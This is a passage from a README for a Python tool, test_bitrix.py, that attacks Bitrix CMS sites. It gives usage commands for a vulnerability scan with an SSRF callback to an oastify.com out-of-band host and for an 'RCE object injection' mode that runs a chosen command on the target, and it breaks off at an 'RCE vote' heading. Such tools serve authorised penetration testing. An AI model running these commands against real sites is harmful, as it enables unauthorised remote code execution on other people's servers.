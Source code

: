 ```console
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target url (example: https://target.com) (default: None)
  -x proxy, --proxy proxy
                        URL proxy (example: http://127.0.0.1:8080) (default: None)
  -rt rate, --rate rate
                        Delay between requests in ms (example: 500) (default: None)
```

### Running scan mode

Scan common vulnerabilities

```sh
python3 test_bitrix.py -t https://example.com scan -s http://subdomain.oastify.com
```
Display help for mode
```sh
python3 test_bitrix.py scan -h
```

```console
usage: python3 test_bitrix.py scan [-h] -s SSRF_URL

options:
  -h, --help            show this help message and exit
  -s SSRF_URL, --ssrf_url SSRF_URL
                        url for ssrf attack (example: http://5kqki2fsl626q2257vy6xc2ef5lw9rxg.oastify.com)
```

### Running RCE object injection

```sh
python3 test_bitrix.py -t https://example.com object_injection -c 'whoami'
```

Display help for mode
```sh
python3 test_bitrix.py object_injection -h
```

```console
usage: python3 test_bitrix.py object_injection [-h] [-f FUNCTION] -c COMMAND

options:
  -h, --help            show this help message and exit
  -f FUNCTION, --function FUNCTION
                        Used function
  -c COMMAND, --command COMMAND
                        Command for execution
```

### Running RCE vote
